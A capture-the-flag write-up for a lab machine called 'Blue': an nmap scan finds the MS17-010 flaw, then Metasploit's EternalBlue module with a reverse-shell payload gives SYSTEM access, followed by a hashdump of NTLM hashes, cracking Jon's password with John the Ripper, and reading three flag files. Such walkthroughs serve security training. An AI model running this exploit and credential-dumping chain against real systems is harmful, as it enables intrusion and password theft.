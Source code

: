 # Blue

## Machine info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.253.11 -oN port_scan.txt

Nmap scan report for 10.10.253.11
Host is up (0.036s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-28T14:22:00
|_Not valid after:  2026-01-27T14:22:00
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-29T14:23:34+00:00
|_ssl-date: 2025-07-29T14:23:40+00:00; -2s from scanner time.
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 2 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-29T14:23:34
|_  start_date: 2025-07-29T14:21:58
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-29T09:23:34-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 59m57s, deviation: 2h14m09s, median: -2s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:18:ab:86:6d:ff (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```



## SMB vuln enumeration

```bash
nmap -p 445 --script vuln 10.10.253.11

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

The host is vulnerable to ms17-010 vulnerability called EternalBlue.



## EternalBlue with Metasploit

Start metasploit and search the modules for thid vulnerability.

```bash
service postgresql start && msfconsole

search ms17-010
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the first module which we found.

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Set the confs and run the exploit

```bash
set RHOSTS 10.10.253.11
set payload windows/x64/shell/reverse_tcp
exploit
```

The exploit was success!

Now we can upgrade our shell into meterpreter shell

```
session -u 1
```

Then, that we have a meterpreter session go to PrivEsc part



## PrivEsc

We are already NT AUTHORITY/SYSTEM but we can migrate our process to obtain all rights.

```bash
ps
migrate LSASS_PID
```

Now we can use the HASHDUMP module of meterpreter to dump all hash in the machine.

```
hashdump

# output 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy the jon row into a file and try to crack it with John the ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT

# output
alqfna22         (Jon)  
```



## Flags

Flag1? _This flag can be found at the system root._&#x20;

```powershell
cd C:\
more flag1.txt
```



Flag2? _This flag can be found at the location where passwords are stored within Windows._

```powershell
cd C:\Windows\System32\config
more flag2.txt
```



flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._&#x20;

```powershell
cd C:\Users\Jon\Documents
more flag3.txt
```
